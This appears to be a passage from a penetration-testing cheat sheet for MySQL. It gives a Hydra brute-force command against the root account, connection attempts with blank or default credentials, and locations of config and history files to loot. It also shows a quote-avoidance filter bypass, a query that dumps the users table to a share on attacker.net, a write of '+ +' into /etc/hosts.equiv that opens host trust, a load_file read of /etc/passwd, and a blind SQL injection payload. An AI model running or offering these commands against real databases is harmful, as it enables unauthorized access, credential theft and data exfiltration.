 Insert into SQL:
```sql
.mode insert <target_table_name>
.out file.sql
select * from MyTable;
```

## MySQL

- Online complier: <https://rextester.com/l/mysql_online_compiler>
- Bruteforce: `hydra -l root -P /path/to/wordlist.txt (TARGET IP ADDRESS) mysql`
- Connection tests
    ```
    mysql -h <Hostname> -u root
    mysql -h <Hostname> -u root
    mysql -h <Hostname> -u root@localhost
    mysql -h <Hostname>
    mysql -h <Hostname> -u ""@localhost

    mysql -u john -phiroshima -e 'show databases'
    mysql -u john -phiroshima -D webapp -e 'show tables'
    ```
- Configuration files:
  - Windows
    - config.ini
    - my.ini
    - windows\my.ini
    - winnt\my.ini
    - <InstDir>/mysql/data/
  - UNIX
    - /etc/my.cnf
    - /etc/mysql/my.cnf
    - /var/lib/mysql/my.cnf
    - ~/.my.cnf
    - /etc/my.cnf
- Command history:
  - ~/.mysql.history
- Log files:
  - connections.log
  - update.log
  - common.log
- Bypass
  - Avoid quotes: `select concat('1337','aaaa')` == `select concat(0x31333337,0x61616161)`
- List udf: `select * from mysql.func`
- `select * into outfile ‘\\\\attacker.net\\share\\output.txt’ from users;`
  ```sql 
  create table test (a varchar(200))
  insert into test(a) values (‘+ +’)
  select * from test into outfile ‘/etc/hosts.equiv’
  ```
- `select load_file(‘/etc/passwd’)`
- `admin’ AND ASCII(SUBSTRING(‘Admin’,1,1)) = 65--`
